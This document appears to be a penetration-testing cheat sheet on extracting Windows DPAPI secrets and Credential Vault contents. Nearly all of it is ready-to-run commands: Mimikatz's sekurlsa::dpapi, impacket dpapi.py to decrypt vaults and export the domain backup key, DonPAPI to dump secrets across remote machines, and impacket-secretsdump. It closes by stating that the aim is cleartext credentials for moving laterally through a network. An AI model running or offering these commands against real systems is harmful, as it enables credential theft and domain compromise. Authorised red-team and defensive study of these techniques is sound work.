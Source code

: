 # Extract DPAPI and Credentials Vault

## Tools: Mimikatz , DonPAPI , impacket-secretsdump

Decipher Vault with Master Key

    dpapi.py vault -vcrd <vault_file> -vpol <vault_policy_file> -key <master_key>

Dump all secrets on a remote machine

    DonPAPI.py domain.local/user1:password@<target>

Extract the domain backup key with a Domain Admin

    dpapi.py backupkeys --export -t domain.local/user1:password@<DC_IP>

Dump all user secrets with the backup key

    DonPAPI.py -pvk domain_backupkey.pvk domain.local/user1:password@<targets>

#### 1) Mimikatz

    mimikatz.exe "sekurlsa::dpapi"

#### 2) impacket-secretsdump

    impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 3) DonPAPI

    DonPAPI.py DOMAIN/USER:PASSWORD@TARGET

### Dumping DPAPI will give us cleartext credentials so that we can laterally move within the network
